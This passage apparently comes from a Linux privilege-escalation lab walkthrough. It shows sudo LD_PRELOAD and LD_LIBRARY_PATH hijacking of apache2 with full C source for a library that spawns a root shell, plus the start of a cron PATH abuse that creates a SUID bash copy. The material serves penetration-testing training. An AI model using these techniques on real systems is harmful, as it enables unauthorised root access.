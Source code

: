 ```bash
root@gr4n173:~$ sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run `ldd` against the apache2 program file to see which shared libraries are used by the program:

```bash
root@gr4n173:~$ ldd /usr/sbin/apache2
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:
```C
$Code for library path
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
root@gr4n173:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object):

```bash
root@gr4n173:~$ sudo LD_LIBRARY_PATH=/tmp apache2
```

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again.

## 5. Cron Jobs
### Environment Variable

view the contents of the system-wide crontab: `cat /etc/crontab`

Note: the PATH variable starts with `/home/users` which is our user's home directory
```bash
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

